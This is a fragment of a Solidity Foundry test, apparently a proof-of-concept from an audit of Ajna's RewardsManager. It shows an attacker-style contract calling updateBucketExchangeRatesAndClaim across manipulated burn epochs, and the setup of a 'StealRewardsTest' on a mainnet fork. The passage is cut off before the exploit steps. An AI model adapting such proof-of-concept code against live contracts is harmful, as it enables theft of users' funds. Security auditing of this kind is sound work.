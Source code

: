 ```solidity

        uint256[] memory depositIndexes = new uint256[](1);
        depositIndexes[0] = 0;

        // setup the `prevBucketExchangeRate`
        _currentBurnEpoch = 1;
        rewardsManager.updateBucketExchangeRatesAndClaim(address(this), depositIndexes);

        _currentBurnEpoch = 2;
        rewardsManager.updateBucketExchangeRatesAndClaim(address(this), depositIndexes);
    }

}

contract StealRewardsTest is Test {
    address internal _ajna = 0x9a96ec9B57Fb64FbC60B423d1f4da7691Bd35079;
    ERC20 internal _ajnaToken;

    IRewardsManager  internal _rewardsManager;
    IPositionManager internal _positionManager;
    ERC20PoolFactory internal _poolFactory;

    function setUp() external {
        vm.createSelectFork(vm.envString("ETH_RPC_URL"));

        _ajnaToken       = ERC20(_ajna);
        _poolFactory = new ERC20PoolFactory(_ajna);
        _positionManager = new PositionManager(_poolFactory, new ERC721PoolFactory(_ajna));
        _rewardsManager  = new RewardsManager(_ajna, _positionManager);

        deal(_ajna, address(_rewardsManager), 100_000_000 * 1e18);
